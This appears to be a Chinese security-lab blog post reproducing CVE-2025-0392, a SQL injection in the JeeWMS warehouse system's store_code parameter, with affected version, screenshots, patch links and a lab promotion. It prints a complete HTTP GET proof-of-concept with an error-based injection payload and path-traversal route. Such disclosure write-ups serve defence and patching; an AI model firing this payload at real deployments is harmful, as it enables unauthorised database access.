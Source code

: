 #  【成功复现】JeeWMS系统SQL注入漏洞漏洞(CVE-2025-0392)   
原创 弥天安全实验室  弥天安全实验室   2025-05-17 04:00  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
0x01漏洞介绍JeeWMS是中国华壹（JeeWMS）公司的一个基于 JAVA 的仓库管理系统。JeeWMS基于JAVA的智能仓储管理系统（支持3PL（三方物流）和厂内物流），包含PDA端和WEB端，功能涵盖WMS（仓库管理系统），OMS（订单管理系统），BMS（财务管理系统），TMS（运输管理系统），成功应用于多家国内知名大客户，客户群体：冷链，干仓，快消品，汽车主机厂和配件厂等行业。JeeWMS 20241229及之前版本存在注入漏洞，该漏洞源于参数store_code存在SQL注入。0x02影响版本  
Jeewms==20241229  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAuu6WEp9ZyyhEicQerRBUhKxuglaNwqWPQd7PVUMhib8on1qxkeEnRBib6U36dqzq0QibOPEgoBZl06Q/640?wx_fmt=png&from=appmsg "")  
0x03漏洞复现  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hAuu6WEp9ZyyhEicQerRBUhKIrIqP4JKGwfEXgPfo2MUd597jPhgeoHktSpac9xM48j2QnfVNajRrg/640?wx_fmt=png&from=appmsg "")  
2.对漏洞进行复现 POC 漏洞复现GET /rest/../graphReportController.do?datagridGraph&configId=CWSYL&store_code=1%27+AND+GTID_SUBSET%28CONCAT%280x7178627a71%2C%28SELECT+%28ELT%284503%3D4503%2C1%29%29%29%2C0x717a6a6b71%29%2C4503%29--+wnMN HTTP/1.1Host: 127.0.0.1User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36Accept-Encoding: gzip, deflateAccept: */*Connection: keep-alive      执行sql语句，通过响应报错判断漏洞存在。3.Yakit插件测试0x04修复建议目前厂商已发布升级补丁以修复漏洞，补丁获取链接：建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！http://www.huayi-tec.com/https://gitee.com/erzhongxmu/JEEWMS/issues/IBFK93弥天简介学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。口号 网安引领时代，弥天点亮未来 知识分享完了喜欢别忘了关注我们哦~学海浩茫，予以风动，必降弥天之润！   弥  天安全实验室  
  
  
